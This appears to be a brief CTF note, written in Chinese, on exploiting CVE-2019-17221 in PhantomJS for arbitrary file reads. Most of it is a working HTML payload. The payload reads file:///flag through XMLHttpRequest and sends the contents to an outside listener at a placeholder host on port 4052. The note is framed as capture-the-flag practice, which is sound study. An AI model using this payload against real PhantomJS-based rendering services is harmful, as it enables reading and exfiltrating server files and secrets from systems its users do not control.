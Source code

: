 tags:: CTF/PhantomJS

- # 思路
	- PhantomJS打CVE-2019-17221做文件任意读取
- # PhantomJS文件任意读取
	- ```html
	  <!DOCTYPE html>
	  <html lang="en">
	  <head>
	      <meta charset="UTF-8">
	      <meta name="viewport" content="width=device-width, initial-scale=1.0">
	      <title>Document</title>
	  </head>
	  <body>
	      <script>
	          x = new XMLHttpRequest;
	          x.onload = function(){
	              x = new XMLHttpRequest;
	              x.open("GET", "http://xxx:4052/?p=" + encodeURIComponent(this.responseText))
	              x.send();
	              document.write(this.responseText)
	          }
	          x.open("GET", "file:///flag")
	          x.send();
	      </script>
	  </body>
	  </html>
	  ```